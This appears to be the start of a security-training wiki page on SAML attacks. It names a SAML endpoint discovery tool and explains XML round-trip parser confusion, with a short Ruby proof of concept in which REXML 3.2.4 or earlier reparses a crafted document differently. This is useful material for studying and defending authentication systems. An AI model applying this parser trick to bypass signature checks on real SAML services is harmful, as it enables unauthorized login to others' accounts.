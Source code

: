 # SAML Attacks

## SAML Attacks

{{#include ../../banners/hacktricks-training.md}}

## Basic Information

{{#ref}}
saml-basics.md
{{#endref}}

## Tool

[**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor): A tool that can take a URL or list of URL and prints back SAML consume URL.

## XML round-trip

In XML the signed part of the XML is saved in memory, then some encoding/decoding is performed and the signature is checked. Ideally that encoding/decoding shouldn't change the data but based in that scenario, **the data being checked and the original data could not be the same**.

For example, check the following code:

```ruby
require 'rexml/document'

doc = REXML::Document.new <<XML
<!DOCTYPE x [ <!NOTATION x SYSTEM 'x">]><!--'> ]>
<X>
  <Y/><![CDATA[--><X><Z/><!--]]>-->
</X>
XML

puts "First child in original doc: " + doc.root.elements[1].name
doc = REXML::Document.new doc.to_s
puts "First child after round-trip: " + doc.root.elements[1].name
```

Running the program against REXML 3.2.4 or earlier would result in the following output instead:

```
First child in original doc: Y
First child after round-trip: Z
```

This is how REXML saw the original XML document from the program above:

![https://mattermost.com/blog/securing-xml-implementations-across-the-web/](<../../images/image (1001).png>)
